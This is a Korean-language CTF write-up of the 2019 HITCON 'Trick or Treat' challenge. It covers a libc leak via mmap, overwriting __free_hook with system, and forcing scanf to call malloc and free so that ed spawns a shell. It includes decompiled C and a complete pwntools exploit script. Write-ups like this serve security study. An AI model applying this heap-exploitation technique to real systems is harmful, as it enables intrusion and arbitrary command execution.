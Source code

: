 ```yaml
---
title: "2019 HITCON CTF 🎃 Trick or Treat 🎃"
date: 2020-4-16
ctf: HITCON CTF
layout: post
published : false
---
```


* malloc -> mmap -> libc base leak
* Free_hook -> system
* scanf call malloc & free

원하는 사이즈만큼 malloc에 인자로 할당할 수 있고 할당을 성공하면 chunk address를 leak이 된다. malloc을 할 때 top chunk 사이즈보다 크게 할당하게 되면 mmap으로 새로운 영역에 매핑해서 할당하게된다. 이를 이용해서 libc base 거리가 일정해서 libc base를 구할 수 있게된다. 이게 trick인 이유가 scanf에 값을 많이 넣게 되면 scanf 내부에서 malloc과 free를 호출해서 임시 버퍼를 만든다. hook을 덮어서 system("ed")을 만들어서 ed로 escape할 수 있다. 그리고 !/bin/sh를 입력하면 쉘 따게 된다. 

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  signed int i; // [rsp+4h] [rbp-2Ch]
  __int128 size; // [rsp+8h] [rbp-28h]
  __int64 v5; // [rsp+18h] [rbp-18h]
  _QWORD *v6; // [rsp+20h] [rbp-10h]
  unsigned __int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  size = 0uLL;
  v5 = 0LL;
  v6 = 0LL;
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  write(1, "Size:", 5uLL);
  __isoc99_scanf("%lu", &size);
  v6 = malloc(size);
  if ( v6 )
  {
    printf("Magic:%p\n", v6);
    for ( i = 0; i <= 1; ++i )
    {
      write(1, "Offset & Value:", 0x10uLL);
      __isoc99_scanf("%lx %lx", &size + 8);
      v6[*(&size + 1)] = v5;
    }
  }
  _exit(0);
}
```

> exploit.py

```python
from pwn import *

e = ELF('./trick_or_treat')
p = process('./trick_or_treat')
libc = e.libc

p.sendlineafter('Size:','99999999') # mmap to libc leak
p.recvuntil(':')
leak = int(p.recvline().strip(),16) # chunk address
log.info(hex(leak))
libc_base = leak + 100003824
log.info(hex(libc_base))
free_hook = libc_base + libc.symbols['__free_hook']
log.info(hex(free_hook))
system = libc_base + libc.symbols['system']
log.info(hex(system))
free_hook_offset = (free_hook - leak) / 8
log.info(hex(free_hook_offset))

p.sendlineafter('Offset & Value:',hex(free_hook_offset) + ' ' + hex(system))
p.sendlineafter('Offset & Value:','A'*10000) # scanf call malloc -> free

p.sendline('ed')

p.sendline('!/bin/sh')

p.interactive()
```

